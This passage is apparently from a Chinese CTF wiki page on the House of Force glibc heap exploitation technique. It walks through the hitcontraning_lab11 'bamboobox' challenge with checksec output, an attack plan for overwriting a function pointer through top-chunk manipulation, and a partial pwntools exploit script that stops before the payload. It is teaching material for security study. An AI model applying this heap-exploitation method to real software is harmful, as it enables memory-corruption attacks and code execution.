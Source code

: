 ```c

    b[0] = &hack;
    malloc(0x10);

    return 0;
}
```

## 例题
### hitcontraning_lab11
> 题目地址：https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/house-of-force/hitcontraning_lab11
> 题目版本：ubuntu16.04 & glibc-2.23

#### 分析
```sh
➜  hitcontraning_lab11 checksec bamboobox    
[*] '/Pwn/heap/house-of-force/hitcontraning_lab11/bamboobox'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

change_item函数有堆溢出漏洞

#### 思路
1. 修改top chunk的size为-1
2. 降低top chunk的指针到heap基址
3. 申请chunk获取存放函数指针的堆块的读写权限
4. 修改goodbye函数指针内容为magic函数地址
5. 利用退出选项执行magic函数

#### exp
```python

    p.sendline(str(length).encode())
    p.recvuntil(b":")
    p.sendline(name)

def modify(idx, length, name):
    p.recvuntil(b":")
    p.sendline(b"3")
    p.recvuntil(b":")
    p.sendline(str(idx).encode())
    p.recvuntil(b":")
    p.sendline(str(length).encode())
    p.recvuntil(b":")
    p.sendline(name)

def remove(idx):
    p.recvuntil(b":")
    p.sendline(b"4")
    p.recvuntil(b":")
    p.sendline(str(idx).encode())

def show():
    p.recvuntil(b":")
    p.sendline(b"1")

magic = 0x400D49
```